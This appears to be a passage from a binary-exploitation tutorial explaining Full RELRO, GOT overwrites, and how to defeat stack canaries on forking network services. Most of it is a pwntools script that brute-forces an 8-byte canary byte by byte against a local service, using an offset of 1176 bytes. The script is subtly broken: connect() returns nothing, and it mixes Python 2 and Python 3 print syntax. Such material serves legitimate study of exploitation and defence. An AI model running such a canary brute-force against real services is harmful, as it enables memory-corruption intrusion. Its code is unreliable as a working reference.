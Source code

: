 #### Full RELRO

Full RELRO makes the entire GOT read-only which removes the ability to perform a "GOT overwrite" attack, where the GOT address of a function is overwritten with the location of another function or a ROP gadget an attacker wants to run.

Full RELRO is not a default compiler setting as it can greatly increase program startup time since all symbols must be resolved before the program is started. In large programs with thousands of symbols that need to be linked, this could cause a noticable delay in startup time.

## Bypassing Canary & PIE

**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**

![img](../../assets/Week 3-1.png)

### **Canary**

The best way to bypass a simple canary is if the binary is a program **forking child processes every time you establish a new connection** with it (network service), because every time you connect to it **the same canary will be used**.

Then, the best way to bypass the canary is just to **brute-force it char by char**, and you can figure out if the guessed canary byte was correct checking if the program has crashed or continues its regular flow. In this example the function **brute-forces an 8 Bytes canary (x64)** and distinguish between a correct guessed byte and a bad byte just **checking** if a **response** is sent back by the server (another way in **other situation** could be using a **try/except**):

```
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base
    
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
```